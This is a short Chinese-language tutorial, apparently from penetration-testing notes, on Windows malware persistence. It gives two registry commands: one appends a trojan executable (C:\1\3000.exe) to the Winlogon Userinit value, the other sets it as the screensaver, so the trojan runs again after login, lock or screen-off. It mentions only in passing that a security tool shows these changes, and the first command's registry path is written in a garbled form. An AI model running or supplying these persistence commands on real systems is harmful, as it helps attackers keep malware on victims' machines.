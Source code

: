 通过修改注册表，实现重启或者锁屏后重新登陆即可上线，或熄屏时就上线。

分析：使用火绒剑在启动项中 Winlogin 和 登录 中可以看到修改查杀。

## **重启或者锁屏后重新登陆上线**
在HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon中的Userinit对于的值是当前用户登陆的时候会触发的程序，这里我们就在这个值后面添加木马路径。
```
REG ADD "HKLM_SOFTWARE_Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\System32\userinit.exe,C:\1\3000.exe"
```


## **熄屏时上线**

屏幕保护程序的注册表HKEY_CURRENT_USER\Control Panel\Desktop中SCRNSAVE.EXE的值就是对应的屏幕保护程序，如果把这个值改为我们的木马程序那么当开启屏幕保护时也就触发了木马。
```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\1\3000.exe" /f
```


